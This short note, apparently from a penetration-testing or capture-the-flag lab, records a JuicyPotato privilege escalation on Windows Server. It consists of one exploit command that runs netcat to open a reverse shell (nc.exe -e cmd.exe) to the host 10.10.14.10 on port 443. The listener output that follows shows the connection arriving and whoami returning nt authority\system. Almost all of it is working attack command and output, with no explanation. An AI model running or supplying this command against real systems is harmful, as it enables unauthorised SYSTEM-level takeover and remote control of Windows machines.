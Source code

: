 # JuicyPatoto

## exploit: BITS/DCOM MITM (windows server)

JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\sophie\documents\nc.exe -e cmd.exe 10.10.14.10 443" -t *


listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.110.3] 25052
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system

